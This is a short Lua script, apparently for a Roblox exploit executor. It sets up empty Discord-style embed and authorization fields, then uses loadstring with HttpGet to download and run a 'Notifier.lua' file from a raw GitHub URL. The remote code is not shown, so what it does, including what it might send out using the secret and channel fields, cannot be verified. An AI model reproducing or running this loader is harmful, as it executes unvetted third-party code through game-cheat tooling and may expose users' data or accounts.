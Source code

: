 getgenv().Main = {
    Title = "",
    ThumbnailURL = "",
    ColorEmbed = "#FFC0CB"  
}

getgenv().Field = {
    Name = "",
    FieldValue = "" 
}

getgenv().Footer = {
    FooterURL = "",
    FooterText = ""
}

getgenv().Authorization = {
    Secret = "",
    Channel = ""
}

getgenv().field = true

-- [[ Spam Prevention]] --
local CoreGui = game:GetService("CoreGui")
local folderName = "ak"

if CoreGui:FindFirstChild(folderName) then        
else
    local folder = Instance.new("Folder")
    folder.Name = folderName
    folder.Parent = CoreGui  
 
 spawn(function()        loadstring(game:HttpGet("https://raw.githubusercontent.com/iRasz/lost/main/Notifier.lua"))()
    end)
end
